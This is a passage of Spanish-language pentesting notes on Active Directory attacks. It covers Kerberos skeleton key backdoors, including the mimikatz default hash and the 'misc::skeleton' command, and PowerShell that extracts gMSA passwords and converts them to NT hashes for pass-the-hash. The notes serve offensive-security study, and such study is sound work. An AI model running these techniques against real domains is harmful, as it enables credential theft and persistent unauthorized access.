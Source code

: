 ![Sesión con ticket creado y ejecución de psexec](images/psexec-exe.png)

#### Kerberos Backdoors

Existe una forma más sutil de realizar un ataque similar al del golden y silver ticket  ya que actúa similar a un rootkit implantandose por si mismo en la memoria en el domain forest permitiéndose acceso a cualquier máquina usando una contraseña maestra.

La skeleton key abusa la forma en la que AS-REQ valida los timestamps cifrados y sólo funciona usando el cifrado RC4 de Kerberos.

El hash por defecto para una skeleton key de mimikatz es `60BA4FCADC466C7A033C178194C03DF6` que resulta en la contraseña *mimikatz*.

##### Skeleton Key Overview

De acuerdo a lo antes mencionado, el timestamp es cifrado con el hash NT de los usuarios. El domain controller después intenta descifrar el timestamp con el hash NT del usuario, una vez que la skeleton key sea implantada en el domain controller trata de decifrar el timestamp usando el hash NT del usuario y el hash NT de la skeleton key permitiendo el acceso al domain forest.

##### Ejecución

`misc::skeleton`

TODO: evidencia


#### Abusando de ACLs/ACEs

##### ReadGMSAPassword

Un atacante puede leer la contraseña GMSA para la cuenta que es aplicada la ACE.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
# Visualizar la contraseña en texto claro
ConvertTo-SecureString $mp -AsPlainText -Force
```

## Referencias

- [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition)](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa).
- [NTLM relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).
- [PowerView CheatSheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).
- [Kerberoasting your way in](https://medium.com/@Shorty420/kerberoasting-9108477279cc).
- [Pentesting in the Real World: Group Policy Pwnage](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/).
- [Ejercicio GPP - HTB Active](https://github.com/srrequiem/SecNotes/blob/main/HTB/Boxes/Windows/1_Easy/Active/htb_active.md).
- [Attacking Kerberos - TryHackMe](https://tryhackme.com/room/attackingkerberos)
- [Pass-The-Ticket (PTT) attack in Mimikatz (and a Gotcha!)](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)